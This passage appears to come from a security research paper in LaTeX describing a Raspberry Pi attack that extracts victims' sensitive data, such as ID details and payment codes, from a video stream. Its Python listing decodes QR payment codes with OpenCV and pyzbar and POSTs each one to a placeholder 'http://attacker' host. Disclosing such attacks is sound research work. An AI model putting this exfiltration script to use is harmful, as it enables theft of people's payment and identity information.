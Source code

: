 Considering that, extracting only high-value information for attacker (or highly sensitive information for victim) is more efficient.
The raspberry pi can use ``opencv'' to identify information from video stream.
For example, extracting the victim's name, photo, address, and ID number when victim is viewing his or her photos including a photo of his or her ID card,
extracting the victim's payment information or payment code when victim is showing his or her payment information.
Here is an example of extracting payment code with opencv library in listing~\ref{lst2:qr},

\begin{lstlisting}[caption={python script for extracting payment code of victim},label=lst2:qr]
    import cv2
    import pyzbar.pyzbar as pyzbar
    import qrcode
    import requests
    def decodeDisplay(video):
        global current
        gray = cv2.cvtColor(video, cv2.COLOR_BGR2GRAY)
        barcodes = pyzbar.decode(gray)
        for barcode in barcodes:
            barcodeData = barcode.data.decode("utf-8")
            barcodeType = barcode.type
            img = qrcode.make(barcodeData)
            requests.post(
                'http://attacker',
                data={'code': barcodeData}
            )
    if __name__ == '__main__':
        # 0 is the camera ID
        cam = cv2.VideoCapture(0)
        while True:
            ret, frame = cam.read()
            decodeDisplay(frame)
            if cv2.waitKey(5) == 27:
                break
        cam.release()
        cv2.destroyAllWindows()
\end{lstlisting}
